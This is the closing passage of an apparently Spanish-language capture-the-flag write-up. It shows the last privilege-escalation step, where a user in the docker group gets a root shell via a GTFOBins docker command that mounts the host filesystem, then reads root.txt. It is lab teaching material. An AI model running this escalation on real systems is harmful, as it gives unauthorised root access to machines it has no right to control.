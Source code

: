 Así que ahora que sabemos que Selena pertenece al grupo "docker", nos vamos a <https://gtfobins.github.io/> y buscamos una shell por "docker":

![](/assets/images/pwned/shell.png)

Justo donde lo dejamos, añadimos:

~~~
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# cd /root
# ls
root.txt
~~~

Y con esto damos por finalizada la máquina, la cual me ha gustado mucho por su temática, incluyendo esas pistas (buenas, y otras no tanto 😂). 
¡Nos vemos en la próxima!




